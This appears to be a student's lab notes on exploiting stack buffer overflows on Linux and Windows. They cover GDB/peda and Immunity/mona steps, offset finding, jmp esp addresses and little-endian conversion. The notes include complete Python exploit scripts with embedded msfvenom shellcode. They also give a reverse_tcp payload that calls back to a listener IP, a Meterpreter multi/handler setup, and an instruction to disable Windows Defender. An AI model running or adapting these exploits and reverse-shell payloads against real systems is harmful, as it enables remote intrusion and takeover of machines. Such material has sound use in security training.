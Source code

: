 
# Buffer Overflow Common Terms
* Heap
* Stack
* Registers
* Instruction Pointer
* Stack Pointer
* Base Pointer
* Function
* Shellcode
# Buffer Overflow Defenses
* Non executable (NX) Stack
* Address Space Layout Randomization (ASLR)
* Data Execution Prevention (DEP)
* Stack Canaries
* Position Independent Excutable (PIE)
# GDB Uses
* installation pf peda plugin
    git clone https://github.com/longld/peda.git ~/peda
    echo "source ~/peda/peda.py" >> ~/.gdbinit
### Common Commands
```
disass <FUNCTION>     # Disassemble portion of the program
info <...>    # Supply info for specific stack areas
x/256c $<REGISTER>    # Read characters from specific register
break <address>    # Establish a break point
run <<<$(echo "asdfghjlklk")    # Goes into standard in of program. It makes it take an arguement before running the program
info functions    # Lists all the functions
pdisass main    # Lists the main function. (Can do this to any function)
info proc map    # Gets a map of the process
```
# Demo Linux
* [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)
  - Look for "EIP" It should have a specific value from the characters you overflowed it with, copy the hex value determine the overflow amount
* To see the size of the stack, do "info proc map" and note the line with [heap], the line below that has a start addr (this is the start of the stack). Note the end addr of the line that has [stack] in it.
* find /b command:
  - `0xff` is jmp
  - `0xe4` is ESP
* `\x90` is NOP
```
run ./func <<<$(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa")  # what thi does id run func and uses command substitution starting at the gators to input bad strings
   
# Find out the overflow value
# Exit
# Enter a fresh gdb session without peda
*STEP 1 env - gdb ./func    # This allows you to do that ^
* pdisass getuserinput # shows code for a function called getuserinput
* shell takes you to your lin ops lines type exit to go back to gdb
* type run then do the overflow of characters 
* show env    # Lists variables
##   # redirects the input to run the file we created that will spam "A" however many times we want
## copy hex value in the EIP after the 0x

```
 #!/usr/bin/env python 
   
   buffer = "A" * 62
   eip = "BBBB"
   
   print(buffer+eip)
```
## the code aboce does a buffer overflow and replaces the EIP to check for validity 
## * unset env <variable>    # This unsets a variable
* info proc map    # Gets a map of the process after the crash
```
crash:
tarting program: /home/student/func 
Enter a string: 
ddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddddd

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```            1            2       3     4
* find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command (1)
* Then then tell it to not use the NULL Byte (2)
* Finally we tell it to format it to python (3)
```                              1           2         3
msfvenom -p
linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads
```
## shell code we push onto the program 
buf =  b""
buf += b"\xba\xf9\xfc\xc9\x23\xdd\xc3\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x0b\x83\xe8\xfc\x31\x50\x10\x03\x50"
buf += b"\x10\x1b\x09\xa3\x28\x83\x6b\x66\x49\x5b\xa1\xe4"
buf += b"\x1c\x7c\xd1\xc5\x6d\xea\x22\x72\xbd\x88\x4b\xec"
buf += b"\x48\xaf\xde\x18\x4d\x2f\xdf\xd8\x25\x47\xb0\xb9"
buf += b"\xa4\xfe\x4e\x6d\x64\x89\xae\x5c\x0a"

## how to generate shell code via msfconsole
payload/linux/x86/exec
show options 
set cmd whoami
    then show options to verify

## your script to get the code to work should be this (shell code is buf and is variable)
!/usr/bin/env python 
   
buffer = "A" * 62
eip = "\x59\x3b\xde\xf7"
nop = "\x90" * 15
buf =  b""
buf += b"\xbb\x35\x5d\x8c\xf4\xd9\xed\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x0b\x31\x5a\x14\x83\xea\xfc\x03\x5a"
buf += b"\x10\xd7\xa8\xe6\xff\x4f\xca\xa5\x99\x07\xc1\x2a"
buf += b"\xef\x30\x71\x82\x9c\xd6\x82\xb4\x4d\x44\xea\x2a"
buf += b"\x1b\x6b\xbe\x5a\x1c\x6b\x3f\x9b\x54\x03\x50\xfa"
buf += b"\xf7\xba\xae\xab\x54\xb5\x4e\x9e\xdb"
print(buffer+eip+nop+buf)

then run on the gdb-peda with: run <<<$(./buff.py)

 ## run <<< $(./buffer.py)            runs the file loaded with the file command and runs it with the script 
## Starting program: /home/student/SECURITY/inventory.exe <<< $(./buffer.py)

once the script and stuff works for a windows machine all you need to change on the script is the EIP

## steps to do for exploiting a buffer overflow on linux 
1. env - gdb ./exe or gdb
2. run the file and spam characters from the generator to get a segmentation fault
3. unset the envs, 
4. then run info proc map
5. run find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
6. Take first 4 and make them little endian
7. take the first one and make it your eip 
8.generate shellcode with msfvenom
9. store into the script then run
        (file ./<file> then type: run <<< $(./<script>)
## it is imprtant to note transferring scripts across machines requires to replace eip because the eip youll use on yourlinops will be different from the web server

## how to use debugger and accomplish our exploit
1. env - gdb /path/.exe 
2. run # runs the executable to prepare for the overflow
3. after getting a SIGSEGV mesage do: info proc map
4. use the command find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4
5. then take first 4 to make little endian, put the first one as your EIP in the script 
6. sudo (because we needed root to run against the file we are cating) /path/.exe <<< $(~/buffer.py)

when you see a strcopy string its vulnerable to overflow
netstat -anob
task manager > performance > open resource monitor to see what port and processes run 
use: nc <your ip> <port opened by serversind>         to interact with the port that is opened by a process 
 
```
# Demo Windows
### The Setup
* Run strings.exe on the executable      # .\downloads\SYSINTERNALS\strings.exe .\downloads\.exe
* Look for vulnerable variables        # strcopy and no stack protection 
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp
```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
run
```
```
## windows exploit
1.
  #!/usr/bin/env python
  import socket
 
  buf = "TRUN /.:/" 
  buf += "<2200 chars>"
  
   s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
   s.connect(("192.168.65.10", 9999))
   print s.recv(1024)
   s.send(buf)
   print s.recv(1024)
          
   s.close()

# 2. once the immunity debugger has the process its running crash and record the eip to gt the buffer

# 3. replace your 2200 chars with the buffer, then to check write a new buf line so its like this
4.  import socket
  3 
  4 buf = "TRUN /.:/"
  5 buf += "A" * 2003
  6 buf += "BBBB"
  7 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  8 s.connect(("192.168.65.10", 9999))
  9 print s.recv(1024)
 10 s.send(buf)
 11 print s.recv(1024)
 12 
 13 s.close()

# 4. once rerun you can also run !mona modules to see what is vulnrable 
# 5. !mona jmp -r esp -m "essfunc.dll" to find jm locations in the dll, look for the 9 pointers and grab the first 4 copy the address and change the uppercase letters to lowercase

# 6. replace the 4 Bs wiht the first one you grab thatll be your jmp esp location 
# 7. generate shellcode with  msfvenom -p windows/shell/reverse_tcp lhost=<linops ip> lport=<RH> -b "\x00" -f python
# 8. use msfconsole to give the following:
        ayload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
  this doesnt matter >>> EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     0.0.0.0          yes       The listen address (an interface may be specified)
   LPORT     <RHP>            yes       The listen port

   
# 9. turn off windows defender real time protection then run the multi/handler exploit

# 10. meterpreter shell should be established now 

## script should look like this 

 #!/usr/bin/env python
  2 import socket
  3 
  4 buf = "TRUN /.:/"        # command to run 
  5 buf += "A" * 2003        # buffer
  6 buf += "\xa0\x12\x50\x62"    # EIP
  7 buf += "\x90" * 15            # NOP sled
  8 # 0x625012A0 -> 0x62 50 12 a0 "\xa0\x12\x50\x62"        # info proc map
  9 # 0x625012AD
 10 
 11 buf += b"\xbb\xe3\xd2\x14\xba\xdb\xd5\xd9\x74\x24\xf4\x5d"        # shellcode from msfvenom
 12 buf += b"\x31\xc9\xb1\x59\x31\x5d\x14\x83\xc5\x04\x03\x5d"
 13 buf += b"\x10\x01\x27\xe8\x52\x4a\xc8\x11\xa3\x34\xf8\xc3"
 14 buf += b"\xc7\x3f\xa8\xd3\x8c\x6d\x41\x9d\x76\x1a\x0b\x89"
 15 buf += b"\x49\xe3\x27\xc3\x81\x14\x8f\x6e\xf4\x1b\x2f\xc2"
 16 buf += b"\xc4\x3a\xd3\x19\x19\x9c\xea\xd1\x6c\xdd\x2b\xa4"
 17 buf += b"\x1b\x32\xe1\x60\x6f\x9e\x16\x04\x2d\x22\x16\xca"
 18 buf += b"\x39\x1a\x60\x6f\xfd\xee\xdc\x6e\x2e\x5e\x56\x38"
 19 buf += b"\xd6\xd5\x30\x99\xe7\x3a\x45\x10\x93\x80\x77\x5c"
 20 buf += b"\x15\x73\x43\x29\xa7\x55\x9d\xed\x04\x98\x11\xe0"
 21 buf += b"\x55\xdd\x96\x1b\x20\x15\xe5\xa6\x33\xee\x97\x7c"
 22 buf += b"\xb1\xf0\x30\xf6\x61\xd4\xc1\xdb\xf4\x9f\xce\x90"
 23 buf += b"\x73\xc7\xd2\x27\x57\x7c\xee\xac\x56\x52\x66\xf6"
 24 buf += b"\x7c\x76\x22\xac\x1d\x2f\x8e\x03\x21\x2f\x76\xfb"
 25 buf += b"\x87\x24\x95\xea\xb8\xc5\x65\x13\xe5\x51\xa9\xde"
 26 buf += b"\x16\xa1\xa5\x69\x64\x93\x6a\xc2\xe2\x9f\xe3\xcc"
 27 buf += b"\xf5\x96\xe4\xee\x2a\x10\x64\x11\xcb\x60\xac\xd6"
 28 buf += b"\x9f\x30\xc6\xff\x9f\xdb\x16\xff\x75\x71\x1d\x97"
 29 buf += b"\xb5\x2d\x60\x73\x5e\x2f\x63\xec\x44\xa6\x85\x42"
 30 buf += b"\x29\xe8\x19\x23\x99\x48\xca\xcb\xf3\x47\x35\xeb"
 31 buf += b"\xfb\x82\x5e\x86\x13\x7a\x36\x3f\x8d\x27\xcc\xde"
 32 buf += b"\x52\xf2\xa8\xe1\xd9\xf6\x4d\xaf\x29\x73\x5e\xd8"
 33 buf += b"\x4d\x7b\x9e\x19\xf8\x7b\xf4\x1d\xaa\x2c\x60\x1c"
 34 buf += b"\x8b\x1a\x2f\xdf\xfe\x19\x28\x1f\x7f\x2b\x42\x16"
 35 buf += b"\x15\x13\x3c\x57\xf9\x93\xbc\x01\x93\x93\xd4\xf5"
 36 buf += b"\xc7\xc0\xc1\xf9\xdd\x75\x5a\x6c\xde\x2f\x0e\x27"
 37 buf += b"\xb6\xcd\x69\x0f\x19\x2e\x5c\x13\x5e\xd0\x22\x3c"
 38 buf += b"\xc7\xb8\xdc\x7c\xf7\x38\xb7\x7c\xa7\x50\x4c\x52"
 39 buf += b"\x48\x90\xad\x79\x01\xb8\x24\xec\xe3\x59\x38\x25"
 40 buf += b"\xa5\xc7\x39\xca\x7e\xf8\x40\xa3\x81\xf9\xb4\xad"
 41 buf += b"\xe5\xfa\xb4\xd1\x1b\xc7\x62\xe8\x69\x06\xb7\x4f"
 42 buf += b"\x61\x3d\x9a\xe6\xe8\x3d\x88\xf9\x38"
 43 
 44 s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)            # socket stuff for windows
 45 s.connect(("192.168.65.10", 9999))        # used the win ops ip cause we are trying to get on it and used the port the vulnerable .exe                                                    opens
 46 print s.recv(1024)
 47 s.send(buf)
 48 print s.recv(1024)
 49 
 50 s.close()
